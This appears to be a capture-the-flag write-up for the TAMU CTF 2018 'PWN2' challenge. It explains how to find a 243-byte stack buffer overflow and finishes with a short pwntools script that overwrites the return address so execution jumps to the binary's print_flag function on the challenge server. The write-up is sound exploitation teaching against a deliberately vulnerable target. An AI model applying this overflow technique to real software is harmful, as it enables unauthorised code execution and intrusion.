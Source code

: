 ```yaml
---
author: zangobot
ctf: TAMU CTF 2018
challenge: PWN2
categories: [pwn]
tags: [ ctf, springchicken, challenge ]
layout: writeup
---
```

pwn2 asks the user to enter a sentence and it will reply with the same message.

```
I just love repeating what other people say!
I bet I can repeat anything you tell me!

stardibistengodelmisticosoledeimoscardinideltacamorodimontorsi

stardibistengodelmisticosoledeimoscardinideltacamorodimontorsi
```

My intuition is suggesting me to mess with the length of the input string.

After some trials, I found that with a string longer than 243 characters, the program halts in [SIGSEGV](https://en.wikipedia.org/wiki/Segmentation_fault).

This time, the buffer is long enough for a shellcraft... if only the NX bit were disabled.

I can't proceed in that direction. Should I use ROP?

Why the hell? There is the `print_flag` function in the binary! As regards ASLR and canary, same as [pwn1]({{site.base_url}}/writeups/TAMU2018/pwn1), they are both disabled.

So, the exploit is:

```python
from pwn import *

OFFSET = 243
shell = p32(0x0804854b)
exploit = 'A'*OFFSET + shell
rem = remote('pwn.ctf.tamu.edu', 4322)
rem.sendline(exploit)
rem.interactive()

```


Flag captured :-D
